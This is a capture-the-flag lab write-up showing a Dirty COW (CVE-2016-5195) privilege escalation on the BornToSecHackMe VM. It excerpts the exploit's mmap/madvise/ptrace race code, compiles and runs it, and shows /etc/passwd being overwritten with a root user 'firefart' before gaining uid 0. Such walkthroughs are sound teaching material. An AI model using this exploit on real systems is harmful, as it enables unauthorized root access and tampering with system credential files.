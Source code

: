 # Dirty COW

```shell
$ ssh laurie@$VMIP
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@192.168.60.10's password:
laurie@BornToSecHackMe:~$
```
Since we can login with a normal user `laurie` after exploiting FTP, from this point we can execute a Dirty COW attack. 

This vulnerability has CVE identifier [CVE-2016-5195](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-5195).

```shell
laurie@BornToSecHackMe:~$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```
The vulnerability has existed in the Linux kernel since version 2.6.22 and has been patched in version 4.8.3. Our boot2root linux is surely affected.

```c
f = open(filename, O_RDONLY);
fstat(f, &st);
map = mmap(NULL, st.st_size + sizeof(long), PROT_READ, MAP_PRIVATE, f, 0);
```
The exploit script firstly create a private copy of a read-only file by calling `mmap`.

```c
pid = fork();
if (pid)
	/* ... */
else {
	pthread_create(&pth, NULL, madviseThread, NULL);
	ptrace(PTRACE_TRACEME);
	kill(getpid(), SIGSTOP);
	pthread_join(pth,NULL);
}
```
Next it calls `fork` to create a race condition. The new thread calls `madvise` function to tell the OS to dump the private copy during the procedure of writing data. This throwing away of the private copy results in the kernel accidentally writing to the original read-only file.


When we run the script, it writes a new root to `/etc/passwd` which we don't have writable permission.
```shell
laurie@BornToSecHackMe:~$ gcc -pthread dirty.c -o dirty -lcrypt
laurie@BornToSecHackMe:~$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fiDFcnMz5E5z6:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '42'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '42'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

Once execution done, we can log as `firefart:42`
```shell
laurie@BornToSecHackMe:~$ su firefart
Password: 42
firefart@BornToSecHackMe:/home/laurie# id
uid=0(firefart) gid=0(root) groups=0(root)
```
